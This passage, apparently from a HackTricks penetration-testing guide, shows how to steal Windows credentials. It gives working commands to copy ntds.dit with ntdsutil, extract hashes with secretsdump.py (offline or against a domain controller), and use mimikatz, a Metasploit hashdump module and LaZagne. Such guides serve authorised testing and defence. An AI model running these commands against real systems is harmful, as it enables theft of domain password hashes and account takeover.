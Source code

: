 ntdsutil "ac i ntds"  "ifm"  "create full c:\copy-ntds" quit quit

You could also use the [**volume shadow copy**](https://book.hacktricks.xyz/windows/stealing-credentials#stealing-sam-and-system)**  **trick to copy the **ntds.dit** file. Remember that you will also need a copy of the **SYSTEM file** (again, [**dump it from the registry or use the volume shadow copy**](https://book.hacktricks.xyz/windows/stealing-credentials#stealing-sam-and-system)**  **trick).

##

**Extracting hashes from NTDS.dit**[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2726'%3e%3cg data-evernote-id='2727' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='2728' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='2729' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/windows/stealing-credentials#extracting-hashes-from-ntds-dit)

Once you have **obtained **the files **NTDS.dit** and **SYSTEM **you can use tools like* secretsdump.py* to **extract the hashes**:

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2752'%3e%3cg data-evernote-id='2753' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='2754' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='2755' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL -outputfile credentials.txt
You can also **extract them automatically** using a valid domain admin user:

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2770'%3e%3cg data-evernote-id='2771' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='2772' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='2773' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

secretsdump.py -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER>

For** big NTDS.dit files** it's recommend to extract it using [gosecretsdump](https://github.com/c-sto/gosecretsdump).

Finally, you can also use the **metasploit module**: *post/windows/gather/credentials/domain_hashdump *or **mimikatz **`lsadump::lsa /inject `

#

Lazagne[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2812'%3e%3cg data-evernote-id='2813' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='2814' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='2815' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/windows/stealing-credentials#lazagne)

Download the binary from [here](https://github.com/AlessandroZ/LaZagne/releases). you can use this binary to extract credentials from several software.

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='2833'%3e%3cg data-evernote-id='2834' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='2835' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='2836' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

lazagne.exe all

#
